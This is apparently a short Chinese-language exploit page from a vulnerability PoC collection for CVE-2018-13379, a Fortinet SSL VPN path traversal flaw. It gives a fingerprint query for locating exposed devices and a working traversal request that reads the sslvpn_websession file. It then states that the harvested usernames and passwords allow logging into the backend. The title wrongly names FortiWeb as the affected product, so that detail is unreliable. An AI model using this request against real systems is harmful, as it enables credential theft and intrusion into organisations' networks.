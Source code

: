 # Fortinet FortiWeb sslvpn_websession 路径遍历漏洞 CVE-2018-13379

## 漏洞描述

Fortinet FortiWeb路径遍历漏洞，攻击者通过漏洞可以获取缓存信息，登录服务器

## 漏洞影响

<a-checkbox checked>Fortinet FortiWeb </a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="FortiToken clock drift detected"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1656249876571-67ffe16d-92fa-4e83-a87e-8ae42a65b069.png)

验证POC

```php
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

![img](../../../.vuepress/public/img/1656249978255-3ac076a5-e2c3-41dd-b2f9-527d4e7a3f68.png)

获取的账号密码即可登录后台